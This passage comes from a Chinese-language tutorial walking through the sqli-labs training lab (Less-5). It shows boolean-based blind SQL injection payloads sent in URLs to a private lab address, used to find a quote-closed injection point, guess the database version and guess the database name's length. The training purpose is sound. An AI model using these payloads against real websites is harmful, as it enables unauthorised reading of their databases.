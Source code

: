 ### 3.3.5.**案例sqli-labs-less-5 字符型**

#### 3.3.5.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and 1=2--+

![img](assets/Yymxs6RwXTj75Dd.jpg) 

#### 3.3.5.2.**猜测数据库版本号**

数据库版本是5.6.17，这里的语句意思就是测试数据库版本第一位是不是5，通过返回的结果显示是对的。若不是5则页面返回错误，若是5则页面返回正确。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and left (version(),1)=5--+

![img](assets/Ux5WSqEZn6VRoPO.jpg) 

#### 3.3.5.3.**猜测数据库名长度**

若是8则返回正确，若不是8则返回错误。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length(database())=8--+

![img](assets/SuKQYzF9DWIOmei.jpg) 
